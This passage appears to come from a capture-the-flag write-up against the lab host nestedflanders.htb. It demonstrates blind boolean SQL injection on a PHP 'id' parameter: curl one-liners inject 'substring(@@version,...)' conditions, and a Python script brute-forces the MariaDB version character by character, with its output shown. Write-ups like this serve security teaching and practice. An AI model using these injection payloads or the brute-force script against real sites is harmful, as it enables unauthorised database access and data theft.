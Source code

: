 I can put more interesting checks into that spot. For example, if I want to check the version of database running, I can brute force it character by character by replacing the `1=1` with `substring(@@version,1,1)=a` to check if the first character is a.

So knowing that the database version starts with `1`, I can show that this works:

```

root@kali# if(curl -k -s "https://www.nestedflanders.htb/index.php?id=587'+and+substring(@@version,1,1)='a'--+-" | grep -q 2001); then echo false; else echo true; fi
false
root@kali# if(curl -k -s "https://www.nestedflanders.htb/index.php?id=587'+and+substring(@@version,1,1)='0'--+-" | grep -q 2001); then echo false; else echo true; fi
false
root@kali# if(curl -k -s "https://www.nestedflanders.htb/index.php?id=587'+and+substring(@@version,1,1)='1'--+-" | grep -q 2001); then echo false; else echo true; fi
true

```

I can even throw together a quick `python` script that will brute the version for me:

```

#!/usr/bin/env python3

import requests
import string
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

i = 1
while True:
    done = True
    for c in string.printable[:-10]:
        param = {"id": f"587' and substring(@@version,{i},1)='{c}'-- -"}
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        resp = requests.get("https://www.nestedflanders.htb/index.php", params=param, verify=False, proxies={'https': 'https://127.0.0.1:8080'})
        if not "2001" in resp.text:
            sys.stdout.write(c)
            sys.stdout.flush()
            i += 1
            done = False
            break
    if done:
        break

```

```

root@kali# ./sqli.py
10.1.37-mariadb-0+deb9u1

```
